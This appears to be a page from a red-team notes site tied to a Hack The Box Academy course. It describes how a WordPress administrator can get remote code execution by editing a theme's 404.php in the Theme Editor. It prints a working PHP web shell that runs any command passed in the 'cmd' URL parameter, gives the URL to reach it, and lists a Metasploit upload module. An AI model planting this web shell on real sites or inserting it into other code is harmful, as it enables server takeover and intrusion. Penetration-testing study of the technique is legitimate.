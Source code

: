 # WordPress Admin RCE

[![hackingwordpress](../../../../_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)

<div class="row row-cols-lg-2"><div>

With sufficient privileges, it is possible to exploit a remote code execution (RCE) *vulnerability* on WordPress.

Since admins can modify templates, and templates are written in PHP, we can replace one of them with our code. For instance, a remote shell, meaning we would have a remote command execution (RCE).

Select `Appearance` then `Theme Editor`. Select a theme, preferably one that is not used to avoid breaking things.

Pick a non-critical file such as `404.php` and add to it a [web shell](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md):
</div><div>

```php!
<?php
// add your webshell
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>";
// prevent the rest of the page from showing up
// ⚠️ it may not work, remove it if it doesn't
exit 0;
```

To execute it, aside from accessing an invalid URL which may highlighted in the logs, directly access the file from the theme folder:

```text!
https://<HOST>/wp-content/themes/<theme_name>/404.php
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* metasploit `wp_admin_shell_upload`
</div><div>
</div></div>